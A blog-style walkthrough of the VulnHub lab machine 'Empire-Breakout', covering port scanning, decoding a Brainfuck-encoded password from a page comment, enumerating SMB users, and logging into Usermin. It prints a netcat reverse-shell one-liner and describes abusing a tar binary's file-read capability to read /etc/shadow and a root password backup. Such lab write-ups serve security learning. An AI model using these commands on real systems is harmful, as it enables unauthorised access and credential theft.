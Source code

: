 ```yaml
---
layout: post
title: Empire-Breakout
categories: VulnHub Machines
permalink: /vulnhub/empire-breakout
---
```


Author: Icex64 & Empire Cybersecurity

## Nmap

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-09 02:53 UTC
Nmap scan report for 192.168.56.135
Host is up (0.00092s latency).
Not shown: 65530 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
|_http-server-header: Apache/2.4.51 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
MAC Address: 08:00:27:A2:1E:2A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

Host script results:
| smb2-time: 
|   date: 2025-01-09T02:53:44
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -2s
|_nbstat: NetBIOS name: BREAKOUT, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

TRACEROUTE
HOP RTT     ADDRESS
1   0.92 ms 192.168.56.135

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.84 seconds
```

## Port 80

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/fc3a63cb-9633-4515-9432-fe1dc9c08dfe/15fa14b6-bd33-4c80-ae2e-d0577e3b7715/image.png)

We are greeted with the apache2 default page. Nothing too special on the page. Let’s look at the source code to see if we find anything.

### Source Code

```html
<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.

-->
```

We can find the above comment hidden within the source code of the page. The weird looking string is encoded using the Brainf**k cipher. Decoding it we get the below string

```bash
.2uqPEfj3D<P'a-3
```

It seems this could be a password to an account. Let’s visit the other ports where we saw MiniServ running.

## Port 10000

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/fc3a63cb-9633-4515-9432-fe1dc9c08dfe/dcc8a846-f488-4f3f-beed-f7879cc66cf7/image.png)

We are greeted with a login page. We can try to login with the password we obtained earlier. Using admin as the user with the password doesn’t work. This means that we need to look for a valid username.

If we look back at the nmap scan we can see that smb is running. We can use enum4linux to find valid users

## enum4linux

```bash
enum4linux -r 192.168.56.135
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Thu Jan  9 03:10:36 2025

 =========================================( Target Information )=========================================
                                                                                                                                                                                                                                            
Target ........... 192.168.56.135                                                                                                                                                                                                           
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none

<SNIP>                                                                                                                                                                        

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                                                                                                                                                 
                                                                                                                                                                                                                                            
S-1-22-1-1000 Unix User\cyber (Local User)                                                                                                                                                                                                  

<SNIP>

enum4linux complete on Thu Jan  9 03:10:49 2025
```

We can see that there is a local user with the username cyber. Let’s try using that as our username on the Webmin login page.

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/fc3a63cb-9633-4515-9432-fe1dc9c08dfe/3d4f6737-6564-4e34-8f7d-423c15ff0547/image.png)

Well, that didn’t work. There is another service Usernmin running on port 20000. We can check to see if the credentials work there.

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/fc3a63cb-9633-4515-9432-fe1dc9c08dfe/9ddef0c8-0342-4f37-8bdf-216b9b4a1e12/image.png)

And there we go, we are now logged in onto Usermin. We can now use the inbuilt terminal to run commands on the server.

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/fc3a63cb-9633-4515-9432-fe1dc9c08dfe/9b590a03-9533-48c3-b6af-4aa98db0721a/image.png)

Let us get a more interactive shell by using netcat.

```bash
[cyber@breakout ~]$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.56.103 4242 >/tmp/f
```

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/fc3a63cb-9633-4515-9432-fe1dc9c08dfe/445c75bc-a961-4ad2-8657-0931947eba2b/image.png)

After getting a more interactive shell using python, we get the user.txt file.

Now time to escalate the privileges.

## Priv Esc

We can see that there is a binary for the tar program there. Which is likely our way to root.

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/fc3a63cb-9633-4515-9432-fe1dc9c08dfe/93f8a00c-5ea0-4f3e-93a1-c6a130cac7cd/image.png)

My first thought was that maybe we have sudo as root on the tar binary. But sudo was disabled so we can’t do that.

We can use getcap to see what capabilities the binary has.

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/fc3a63cb-9633-4515-9432-fe1dc9c08dfe/65f29b93-5210-4aa0-aea6-4144e2773e5f/image.png)

The cap_dac_read_search capability allows us to bypass file read permissions.

We can try and see if we can read the /etc/shadow file.

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/fc3a63cb-9633-4515-9432-fe1dc9c08dfe/48dde4a3-e4b9-48f5-b8cb-5da9ff539af8/image.png)

And sure enough we can.

We can try and crack the hashes offline, but considering the password for cyber was complex, we can see if we have any other way.

Since we can read any file as root, we can look for interesting files owned by root in any of the usual places such as /var/backup or /opt.

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/fc3a63cb-9633-4515-9432-fe1dc9c08dfe/2ccc6616-798e-4656-867c-e43669c1745d/image.png)

Looking at /var/backup we can see a .old_pass.bak file which is readable only by root.

Let’s use out tar binary to read this file.

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/fc3a63cb-9633-4515-9432-fe1dc9c08dfe/78c1ced4-3e8d-49bc-8da0-6bc71b8acd92/image.png)

We seem to get a complex looking password.

Let’s try to su to root using this pass.

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/fc3a63cb-9633-4515-9432-fe1dc9c08dfe/2381d0bc-04d1-4cf1-97ec-a2710231d95b/image.png)

And there we go, we finally have root

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/fc3a63cb-9633-4515-9432-fe1dc9c08dfe/fd904eab-e1a0-41ff-8a10-455123c79302/image.png)

https://www.vulnhub.com/entry/empire-breakout,751/
